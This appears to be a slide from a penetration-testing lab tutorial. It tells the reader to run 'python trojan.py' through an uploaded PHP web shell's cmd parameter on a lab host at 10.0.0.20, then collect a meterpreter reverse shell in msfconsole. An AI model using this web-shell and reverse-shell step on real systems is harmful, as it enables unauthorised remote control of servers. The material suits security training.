

# Your turn now - Execute your payload

Open your browser and type:
http://10.0.0.20/basic-uploads/script.php?cmd=python trojan.py
Go back to your msfconsole and congratulation, you have a reverse shell with meterpreter!